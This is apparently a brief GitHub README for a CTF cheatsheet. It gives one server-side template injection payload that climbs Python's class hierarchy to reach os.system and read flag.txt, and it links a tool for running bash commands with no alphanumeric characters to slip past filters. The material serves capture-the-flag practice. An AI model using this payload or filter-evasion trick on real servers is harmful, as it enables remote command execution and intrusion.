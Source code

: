 # Bash-And-CTF-Cheatsheet
Bash And CTF Cheatsheet that i found around the internet

## Server Side Template Injection
```bash
{{ ().__class__.__base__.__subclasses__()[59].__init__.func_globals["linecache"].__dict__["os"].system('cat flag.txt') }}
```


## BashHack

### Bashfuck
Executing command without usng alphanum characters

[BasFuck](https://github.com/trichimtrich/bashfuck)

